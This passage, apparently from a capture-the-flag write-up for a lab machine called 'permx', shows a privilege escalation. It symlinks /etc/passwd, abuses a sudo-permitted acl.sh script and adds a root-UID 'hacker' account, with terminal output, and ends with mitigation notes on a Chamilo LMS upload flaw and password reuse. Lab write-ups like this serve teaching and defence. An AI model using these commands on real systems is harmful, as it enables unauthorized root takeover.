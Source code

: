 We give it write permission

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
```

We open the file with vim and add the line `hacker:$1$V5geGPyI$SZ9rieQ0FvnwdJdSq7MKV1:0:0:root:/root:/bin/bash`

Now we can switch to that user.

```terminal
mtz@permx:~$ ln -s /etc/passwd passwd
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd
mtz@permx:~$ vim passwd 
mtz@permx:~$ head passwd 
hacker:$1$V5geGPyI$SZ9rieQ0FvnwdJdSq7MKV1:0:0:root:/root:/bin/bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
mtz@permx:~$ su hacker
Password: 
hacker@permx:/home/mtz# id
uid=0(hacker) gid=0(root) groups=0(root)
hacker@permx:/home/mtz# 
```

And just like that we became root.

## **Prevention and Mitigation**

### CVE

Unrestricted file upload in big file upload functionality in Chamilo LMS v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell.

Update to the latest vendor patch and maintain an active patch schedule for any patches that may be released in the future.

### Password reuse

We found a plain text database password in a configuration file which is normal for web applications, but the password was reused by a user allowing us to escalate privileges.

Passwords should never be used for more than one account.

### acl.sh
